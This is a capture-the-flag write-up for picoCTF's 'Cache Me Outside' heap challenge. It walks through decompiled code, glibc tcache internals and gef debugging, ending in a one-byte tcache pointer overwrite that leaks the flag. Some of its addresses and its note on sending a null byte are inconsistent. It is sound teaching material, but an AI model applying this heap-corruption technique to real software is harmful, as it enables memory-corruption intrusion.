





# Cache Me Outside
[In this challenge](https://play.picoctf.org/practice/challenge/146?category=6&page=1), picoCTF provides a binary and the libc library. Let's begin with our usual routine to get an understanding of what's happening.

Check the binary security 
```bash
> checksec ./heapedit

Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./'
```
Now, let's ensure that this binary is configured to run with a nearby libc. If it's not, we will need to use patchelf to make the necessary changes.

```bash
> ldd ./heapedit 

linux-vdso.so.1 (0x00007ffe8c8ae000)
libc.so.6 => ./libc.so.6 (0x00007f27eb282000) # great
/lib64/ld-linux-x86-64.so.2 (0x00007f27eb673000)
```

Alright, the next step is to execute the binary.
```bash
> ./heapedit

Segmentation fault
```
:slightly_frowning_face:	

Let's open this code with Ghidra and analyze what is happening.

```C

undefined8 main(void){
  long in_FS_OFFSET;
  undefined decimal_num_to_assign_to_addr;
  int address_to_edit;
  int i;
  undefined8 *pointer_to_flag;
  undefined8 *heap_pointer;
  FILE *flag_fd;
  undefined8 *heap_pointer_2;
  void *local_80;
  undefined8 local_78;
  undefined8 local_70;
  undefined8 local_68;
  undefined local_60;
  char flag_content [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  flag_fd = fopen("flag.txt","r");
  fgets(flag_content,0x40,flag_fd);
  local_78 = 0x2073692073696874;
  local_70 = 0x6d6f646e61722061;
  local_68 = 0x2e676e6972747320;
  local_60 = 0;
  pointer_to_flag = (undefined8 *)0x0;
  for (i = 0; i < 7; i = i + 1) {
    // 1. allocating 0x80 bytes
    heap_pointer = (undefined8 *)malloc(0x80);
    if (pointer_to_flag == (undefined8 *)0x0) {
      pointer_to_flag = heap_pointer;
    }
    *heap_pointer = 0x73746172676e6f43;
    heap_pointer[1] = 0x662072756f592021;
    heap_pointer[2] = 0x203a73692067616c;
    *(undefined *)(heap_pointer + 3) = 0;
    // 2. copy the flag content
    strcat((char *)heap_pointer,flag_content); 
  }
  heap_pointer_2 = (undefined8 *)malloc(0x80);
  *heap_pointer_2 = 0x5420217972726f53;
  heap_pointer_2[1] = 0x276e6f7720736968;
  heap_pointer_2[2] = 0x7920706c65682074;
  *(undefined4 *)(heap_pointer_2 + 3) = 0x203a756f;
  *(undefined *)((long)heap_pointer_2 + 0x1c) = 0;
  strcat((char *)heap_pointer_2,(char *)&local_78);
  // 3. Now the pointer that contain the flag is free
  free(heap_pointer);
  // 4. And something else that is not relevant is freed as well.
  free(heap_pointer_2);
  address_to_edit = 0;
  decimal_num_to_assign_to_addr = 0;
  puts("You may edit one byte in the program.");
  printf("Address: ");
  __isoc99_scanf("%d",&address_to_edit);
  printf("Value: ");
  __isoc99_scanf(" %c",&decimal_num_to_assign_to_addr);
  *(undefined *)((long)address_to_edit + (long)pointer_to_flag) = decimal_num_to_assign_to_addr;
  // 5. Here we are allocating new space and tcache is probably using the last free address (which is irrelevant)
  local_80 = malloc(0x80);
  // 6. print the content of the last allocated (adding 0x10 to skip the chunk header but we will get to that later.)
  puts((char *)((long)local_80 + 0x10));
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
    __stack_chk_fail();
  }
  return 0;
}
```

From the following line, we can conclude that the program is reading from a file called flag.txt that I don't have. 
```C
flag_fd = fopen("flag.txt","r");
```
So I just created one with random string.
```bash
# AAAA because it's 0x41 in hex so it will be clear to see that in memory.
echo "AAAAA" > flag.txt
```
Now let's run the program
```bash
> ./heapedit

You may edit one byte in the program.
Address: # waiting for imput
Value: # waiting for imput
t help you: this is a random string.
```

In the decompiled code provided, I have inserted bullet numbers for reference. But first let's cover tcache.  
In a nutshell, tcache is a per-thread cache used in the glibc memory allocator to improve memory allocation and deallocation performance. It is a data structure that stores recently freed memory chunks, allowing for faster reuse of memory within the same thread.  
For example:
```
Tcache Bin 1
-------------
|           | -> Chunk 1
|           | -> Chunk 2
|           | -> Chunk 3
|           |
-------------

Tcache Bin 2
-------------
|           | -> Chunk 1
|           | -> Chunk 2
|           |
-------------
```

And a chunk looks like:
```
Chunk Header:
-------------
|  Size     |    (Size of the chunk, including header and user data)
-------------
|  Flags    |    (Flags or metadata associated with the chunk)
-------------

User Data Area:
--------------
|                 |
|    User Data    |
|                 |
--------------
```
Remember bullet 6? In the glibc memory allocator, the chunk header size is typically 16 bytes on 64-bit systems and 8 bytes on 32-bit systems.
And that's why we saw the addition of `0x10` in this line:
```C
puts((char *)((long)local_80 + 0x10));
```
I guess :sweat_smile:...

Anyway, we can also take a look at [glibc source](https://elixir.bootlin.com/glibc/glibc-2.27/source/malloc/malloc.c) code for additional reference.

From glibc:
```C

/* We overlay this structure on the user-data portion of a chunk when
   the chunk is stored in the per-thread cache.  */
typedef struct tcache_entry
{
  struct tcache_entry *next;
} tcache_entry;

/* There is one of these for each thread, which contains the
   per-thread cache (hence "tcache_perthread_struct").  Keeping
   overall size low is mildly important.  Note that COUNTS and ENTRIES
   are redundant (we could have just counted the linked list each
   time), this is for performance reasons.  */
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

The Tcache is implemented as a linked list where new nodes are inserted at the beginning of the list. And the other struct is an array of linked list.
And another array that hold the size of each list. For example:
```
counts = [5, 4, 6]
entries = [
  a0->a1->a2->a3->a4
  b0->b1->b2->b3
  c0->c1->c2->c3->c4->c5
]
```
Now let's debug this and examine what we can discover.
The initial breakpoint will be set just before releasing the pointer to the flag in order to determine its address.

```
gef➤  b *0x004009a3
```


Great! Now we can observe that rdi holds the pointer to a chunk that holds the flag.
Although it might be a bit confusing, let's analyze this step by step.
```bash
gef➤  p $rdi
$1 = 0x603800
gef➤  x/8gx 0x603800
0x603800:       0x73746172676e6f43      0x662072756f592021
0x603810:       0x203a73692067616c      0x00000a4141414141
# 4141414141 == AAAAA
# You can translate the other bytes to ascii (LE) but AAA is a sufficient indication.
```
Now, let's find the contents of the next address that we are going to deallocate.
```
gef➤  b *0x004009af
```

```bash
gef➤  p $rdi
$2 = 0x603890
```
The next address is 0x90 higher than the previous one. But why? If we look at the code we only allocating 0x80 bytes. The answare is chunk header. I attached the code from lib C here so you can see that the chunk header is 16 bytes (0x10). So 0x10 + 0x80 = 0x90.
  
Now let's continue the debug and find what address is allocating next (remember that the program will print the content of the next allocating address).  


```
gef➤  b *0x00400a4a
Breakpoint 3 at 0x00400a4a
gef➤  c
Continuing.
You may edit one byte in the program.
Address: 0
Value: 0
```
Before going into the exploit let's use gef to examine the heap.
```
gef➤  heap chunks
```

So the heap is starting at `0x0000000000602010` let's see what is in there.
```
gef➤  x/32gx 0x0000000000602010
0x602010:       0x0200000000000000      0x0000000000000000
0x602020:       0x0000000000000000      0x0000000000000000
0x602030:       0x0000000000000000      0x0000000000000000
0x602040:       0x0000000000000000      0x0000000000000000
0x602050:       0x0000000000000000      0x0000000000000000
0x602060:       0x0000000000000000      0x0000000000000000
0x602070:       0x0000000000000000      0x0000000000000000
0x602080:       0x0000000000000000      0x0000000000603890
0x602090:       0x0000000000000000      0x0000000000000000
0x6020a0:       0x0000000000000000      0x0000000000000000
0x6020b0:       0x0000000000000000      0x0000000000000000
0x6020c0:       0x0000000000000000      0x0000000000000000
0x6020d0:       0x0000000000000000      0x0000000000000000
0x6020e0:       0x0000000000000000      0x0000000000000000
0x6020f0:       0x0000000000000000      0x0000000000000000
0x602100:       0x0000000000000000      0x0000000000000000
```
So, we have a linked list consisting of two nodes. The head of the linked list is located at address 0x602088, and it points to a useless chunk. However, if we examine this pointer, we can observe the following:
```
gef➤  x/16gx 0x0000000000603890
0x603890:       0x0000000000603800      0x276e6f7720736968
0x6038a0:       0x7920706c65682074      0x73696874203a756f
0x6038b0:       0x6172206120736920      0x727473206d6f646e
0x6038c0:       0x000000002e676e69      0x0000000000000000
0x6038d0:       0x0000000000000000      0x0000000000000000
0x6038e0:       0x0000000000000000      0x0000000000000000
0x6038f0:       0x0000000000000000      0x0000000000000000
0x603900:       0x0000000000000000      0x0000000000000000
```
`0x603890` contains the address of the next free address in tcache.
The other bytes are left over ascii characters.

Not let's step to malloc and see what address is he giving us.
```x86asm
call   0x4006e0 <malloc@plt>
mov    QWORD PTR [rbp-0x78],rax 
mov    rax,QWORD PTR [rbp-0x78]
add    rax,0x10
mov    rdi,rax
call   0x400690 <puts@plt>
```
malloc allocated us the pointer rax which is:
```bash
gef➤  p $rax
$5 = 0x6038a0
```
But notice that the program is adding `0x10` to skip chunk header so
`0x6038a0 - 0x10 = 0x603890`
Which is a pointer to the second deallocated pointer.

Just before the malloc operation, we have the opportunity to modify a single byte relative to the pointer to the flag (the first allocated memory).

```C
*(undefined *)((long)address_to_edit + (long)pointer_to_flag) = decimal_num_to_assign_to_addr;
local_80 = malloc(0x80);
puts((char *)((long)local_80 + 0x10));
```

So let's calculate:  
pointer_to_flag = `0x6034a0`  
address_to_edit = `0x602088`

pointer_to_flag - address_to_edit = 5144
The diff between the 2 chunks is `0x90` as we saw so we need to modify the address
```bash
gef➤  x/gx 0x602088
0x602088:       0x0000000000603890
```
to 
0x0000000000603800
To send 0x00 as terminal input we can use `^A`.

```bash
./heapedit
You may edit one byte in the program.
Address: -5144
Value: ^A
ag is: AAAAA
```

Thanks for reading.
